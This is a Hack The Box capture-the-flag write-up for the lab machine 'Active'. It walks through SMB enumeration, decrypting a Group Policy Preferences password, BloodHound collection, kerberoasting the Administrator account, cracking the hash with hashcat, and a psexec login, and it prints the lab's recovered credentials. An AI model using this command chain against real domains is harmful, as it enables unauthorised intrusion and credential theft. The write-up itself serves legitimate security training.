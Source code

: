 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [hackthebox, Active Directory, Bloodhound, hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:
![smbmap](/boxes/htb/active/smbmap.PNG)

smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Taking a look at the Groups.xml file, an account `SVC_TGS` and `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` encyrpted password was found. This password is encrypted with a known key:
```
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
![msftknownkey](image)
```
```
![groups.xmlhash](/boxes/htb/active/grouphash.png)
```
To decrpyt the password, we use gpp-decrpyt:
```
![gppdecrypt](/boxes/htb/active/gppdecrypt.png)
```
The decrypted hash is `GPPstillStandingStrong2k18`
Using the credentials we found we enumerate more shares
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/)

The user flag was found under `SVC_TGS\Desktop\`

Now that we have credentials, let's Bloodhound the box. We switch to a windows vm and get a command prompt with the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. Run sharphound with the following command to gather information:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
We then drag and drop the zip file created from sharphound into the user interface of Bloodhound on our Kali machine. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](image)
Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](image)
We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](image)
The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](image)
